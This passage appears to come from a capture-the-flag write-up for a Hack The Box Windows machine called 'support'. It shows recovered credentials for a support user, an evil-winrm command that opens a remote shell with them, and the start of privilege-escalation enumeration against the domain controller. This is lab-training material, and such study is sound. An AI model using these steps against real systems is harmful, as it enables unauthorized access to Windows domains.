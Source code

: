 ![alt text](image.png)

Got the following creds of support user

```plaintext
support:Ironside47pleasure40Watchful
```

Establish a shell using evil-winrm

```bash
evil-winrm -i support.htb0 -u support -p Ironside47pleasure40Watchful
```

## Privilege Escalation

Check if the machine is a DC:

```powershell
Get-ADDomain
InfrastructureMaster               : dc.support.htb
```

Identify if the user is a member of any groups:

```powershell
whoami /groups
```
